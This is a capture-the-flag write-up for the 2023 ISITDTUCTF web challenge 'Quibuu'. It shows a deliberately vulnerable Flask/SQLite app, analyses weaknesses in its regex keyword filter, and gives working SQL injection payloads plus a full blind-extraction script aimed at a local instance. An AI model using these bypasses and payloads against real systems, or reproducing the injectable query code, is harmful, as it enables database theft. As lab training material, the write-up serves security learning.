 ```yaml
---
title: 2023 ISITDTUCTF - Quibuu
author: thanguyen165
date: 2023-10-15 00:00:00 +0700
categories: [Write-ups, 2023_ISITDTUCTF]
tags: [Web Exploitation, SQL injection]
---
```


* 30 solves / 127 points
* Author: Discord _onsra_

## Description

> Hmmmmm, u are QuiBuu, right? xD

### Attached

[quibuu_dist.zip](./attached/quibuu_dist.zip)

```py
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```
{: file="app.py" }

## Analyzation

Check around, the flag is in the database:
```
id = 1337, name=ISITDTU, URL = flag
```

So our target is sqli.

There are two sql queries:

```py
db = sqlite3.connect("hehe.db")
cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
img = cursor.fetchone()[0]
```

and

```py
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2
```

The first sql query is useless
```py
if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
    id = 1
```

```id``` will never reach ```1337```.

So the second query will be used, and to the ```ans``` variable. In this problem, error-based sqli works fine.

But we have to bypass ```waf``` first
```py
if waf_cuc_chill(ans):
    return render_template("hack.html")
```

These are some vulnerabilities of waf

- Two columns' name in the database are blocked, ```name``` and ```url```, but ```id```. And the table name ```QuiBuu``` is not blocked, too.

- Words of a query, like ```select```, ```from```, ```where```, etc. are not blocked

- It blocks all most white space, but ```\r```.

- The input string is not escaped.

- ```like``` is blocked, but ```glob``` can be used instead.

- ```substring()``` is blocked, but ```instr()```. That's the keypoint.

## Exploitation

Firstly, my idea was

```py
id = 10
ans = "Naruto' union select * from QuiBuu where url glob \'ISIT*"
ans = ans.replace(" ", "\r")
```

I tried to select ```url``` column with many ways. But it was not work.

**The right answer is union with another table.**

My final payload is
```py
id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{flag_guess}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")
```

- If ```flag_guess``` is correct, the right statement of ```OR``` will be ```1```, and the query will return all data in tables.

Another payload using ```GROUP_CONCAT()```.

```py
id = 10
ans = "a' OR (SELECT instr(( SELECT GROUP_CONCAT(\"pet\") FROM ( SELECT \"admin\", \"user\", \"pet\" UNION SELECT * FROM QuiBuu WHERE id=1337 ) ), \"{flag_guess}\"))/*"
ans = ans.replace(" ", "\r")
```

Now the third column is no longer ```url```, but ```pet```.

## Solution

```py
import requests
import string

ALPHABET = "_}" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL = "http://localhost:1301/?id={}&ans={}"

id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")

flag = "ISITDTU{"
while "}" not in flag:
    for c in ALPHABET:
        response = requests.get(URL.format(id, ans.format(flag + c)))
        if b"Haha QuiBuu" in response.content:
            flag = flag + c
            print(f"-----------flag_guess: {flag} ------------")
            break
print(URL.format(id, ans.format(flag + c)).encode())
```